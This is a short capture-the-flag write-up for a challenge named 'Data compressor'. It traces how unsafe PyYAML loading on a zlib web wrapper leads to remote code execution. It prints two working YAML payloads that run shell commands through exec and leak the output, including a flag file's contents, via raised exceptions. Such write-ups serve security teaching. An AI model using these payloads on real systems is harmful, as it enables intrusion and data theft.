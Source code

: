 # Data compressor

A pleasant little zlib web wrapper.

<hr>

Looking at the requests sent to the server, we see that when we compress, a POST request is made to `/convert_to_yaml`, and when decompressing, a POST request is made to `/convert_to_json`.

Further, when the POST ton `/convert_to_json` is successful, the returned data is under the key "zlib_yaml", indicating that the data is zlib-compressed after converting to YAML.

The vulnerability we want to exploit is then probably a call to `yaml.load()` without specifying the loader (as documented in the python docs)

Referencing HackTricks for the payload, I first tried to do a reverse shell. This didn’t work for some reason, unfortunately :(

This made most of the command-line RCE payloads useless since it was going to be hard to get the data out without a reverse shell.

However, while trying those payloads (and getting “no such file” errors for bash) I noticed that the page has a popup which prints the error message of any python exception raised. (this is also how I figured it was a python backend)

There is a python RCE payload listed on the site, so we can combine that with a `raise RuntimeError()` or similar to get our data out!

First payload (tells us what the name of the flag file is):
```yaml
!!python/object/new:str
state: !!python/tuple
- 'from subprocess import Popen; raise RuntimeError(Popen("ls",stdout=-1).communicate()[0])'
- !!python/object/new:Warning
 state:
   update: !!python/name:exec
```

[TODO photo]


Second payload (reads flag file):
```yaml
!!python/object/new:str
state: !!python/tuple
- 'from subprocess import Popen; raise RuntimeError(Popen("cat secretflag.txt",shell=1,stdout=-1).communicate()[0])'
- !!python/object/new:Warning
 state:
   update: !!python/name:exec
```

[TODO photo]

> I’m so happy right now.
 
